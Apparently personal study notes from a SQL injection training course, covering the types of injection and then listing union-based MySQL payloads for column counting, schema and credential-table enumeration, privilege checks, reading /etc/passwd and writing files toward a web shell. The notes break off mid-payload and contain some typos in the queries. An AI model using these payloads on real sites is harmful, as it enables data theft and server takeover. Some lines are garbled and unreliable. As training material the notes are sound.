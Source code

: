 ![[Pasted image 20250404161804.png]]

In simple cases, the output of both the intended and the new query may be printed directly on the front end, and we can directly read it. This is known as `In-band` SQL injection, and it has two types: `Union Based` and `Error Based`.

With `Union Based` SQL injection, we may have to specify the exact location, 'i.e., column', which we can read, so the query will direct the output to be printed there. As for `Error Based` SQL injection, it is used when we can get the `PHP` or `SQL` errors in the front-end, and so we may intentionally cause an SQL error that returns the output of our query.

In more complicated cases, we may not get the output printed, so we may utilize SQL logic to retrieve the output character by character. This is known as `Blind` SQL injection, and it also has two types: `Boolean Based` and `Time Based`.

With `Boolean Based` SQL injection, we can use SQL conditional statements to control whether the page returns any output at all, 'i.e., original query response,' if our conditional statement returns `true`. As for `Time Based` SQL injections, we use SQL conditional statements that delay the page response if the conditional statement returns `true` using the `Sleep()` function.

Finally, in some cases, we may not have direct access to the output whatsoever, so we may have to direct the output to a remote location, 'i.e., DNS record,' and then attempt to retrieve it from there. This is known as `Out-of-band` SQL injection.

In this module, we will only be focusing on introducing SQL injections through learning about `Union Based` SQL injection.


## SQLi Discovery
![[Pasted image 20250404164115.png]]

## Detect number of columns

Before going ahead and exploiting Union-based queries, we need to find the number of columns selected by the server. There are two methods of detecting the number of columns:

- Using `ORDER BY`
- Using `UNION`

#### Using ORDER BY

The first way of detecting the number of columns is through the `ORDER BY` function, which we discussed earlier. We have to inject a query that sorts the results by a column we specified, 'i.e., column 1, column 2, and so on', until we get an error saying the column specified does not exist.

For example, we can start with `order by 1`, sort by the first column, and succeed, as the table must have at least one column. Then we will do `order by 2` and then `order by 3` until we reach a number that returns an error, or the page does not show any output, which means that this column number does not exist. The final successful column we successfully sorted by gives us the total number of columns.

If we failed at `order by 4`, this means the table has three columns, which is the number of columns we were able to sort by successfully. Let us go back to our previous example and attempt the same, with the following payload:

```sql
' order by 1-- -
```

Reminder: We are adding an extra dash (-) at the end, to show you that there is a space after (--).


### SQLi Payloads
**UNION & ORDER BY** : 
- `val' UNION select 1,2,3,4-- -`
- `val' UNION select 1,@@version,3,4-- -`
- `' order by 2-- -`

**SCHEMATA** : 
- `SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;`
- `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`
- `cn' UNION select 1,database(),2,3-- -`
- `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`  : This payload gives us the information regarding the column name, table name and table schema of the tables

## DB User
```
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Injection payload will be : `value' UNION SELECT 1, user(), 3, 4-- -` or `value' UNION SELECT 1, user, 3, 4 FROM mysql.user-- -`

## User Privileges
`SELECT super_priv FROM mysql.user` : This is the command used to know about the Super Admin Privileges.

`value' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -` : This is the payload for the above command.
If we want to know about the privileges of a particular user, maybe 'root', so we'll use the payload as : `value' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`

`cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -` : This payload is used to dump other privileges, we have directly from the schema.
If I need to have information about a particular user, then it becomes : `cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -`

## LOAD_FILE Function
Used to read data from files.
Query : `SELECT LOAD_FILE('etc/passwd');`
Payload : `value' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`

## Writing Files
The [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) variable is used to determine where to read/write files from. An empty value lets us read files from the entire file system. Otherwise, if a certain directory is set, we can only read from the folder specified by the variable. On the other hand, `NULL` means we cannot read/write from any directory. MariaDB has this variable set to empty by default, which lets us read/write to any file if the user has the `FILE` privilege. However, `MySQL` uses `/var/lib/mysql-files` as the default folder. This means that reading files through a `MySQL` injection isn't possible with default settings. Even worse, some modern configurations default to `NULL`, meaning that we cannot read/write files anywhere within the system.

Query to check the variable : `SHOW VARIABLES LIKE 'secure_file_priv';`
Now, we need to check the table of information_schema to know about the variable value. The query for that would be : `SELECT variable_name, variable+value FROM information_schema.gloabal_variables WHERE variable_name="secure_fle_priv";`
Now the payload for this becomes : `value' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -`

## Select INTO OUTFILE
`SELECT * FROM users INTO OUTFILE '/tmp/credentials';` : Saves the output of the users table into the /tmp/credentials.

>**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

So the payload to write the file becomes : `value' UNION SELECT 1, 'file written successfully!', 3, 4 INT O OUTFILE '/var/www/html/proof.txt'-- -`

## Writing a Web Shell
`value' UNION SELECT "", `